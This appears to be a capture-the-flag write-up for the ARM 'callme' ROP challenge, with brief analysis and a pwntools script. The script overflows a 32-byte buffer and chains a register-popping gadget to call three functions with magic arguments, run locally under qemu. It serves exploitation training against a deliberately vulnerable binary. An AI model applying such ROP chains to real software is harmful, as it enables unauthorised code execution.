

there exist three "callme" function in this binary


upon inspection in ida, it seems that those call me function check r0,r1,r2 for specific values and each print out part of the flag


with a gadget to manipulate those registers, a simple ROP chain is enough to solve this challenge


```
#!/usr/bin/python3
from pwn import *

context.os="linux"
context.log_level="debug"

context.binary=exe=ELF("./callme_armv5-hf")

p=process(["qemu-arm","-L", "/usr/arm-linux-gnueabihf","-g","1234","./callme_armv5-hf"])
p=process(["qemu-arm","./callme_armv5-hf"])

buffer=0x20*b"A"
pop_r0r1r2lrpc=0x00010870

payload=flat(
    buffer,
    0,

    pop_r0r1r2lrpc,
    0xdeadbeef,
    0xcafebabe,
    0xd00df00d,
    pop_r0r1r2lrpc,
    exe.plt["callme_one"],

    0xdeadbeef,
    0xcafebabe,
    0xd00df00d,
    pop_r0r1r2lrpc,
    exe.plt["callme_two"],

    0xdeadbeef,
    0xcafebabe,
    0xd00df00d,
    0,
    exe.plt["callme_three"]
)

p.recvuntil("> ")
p.send(payload)

p.interactive()
```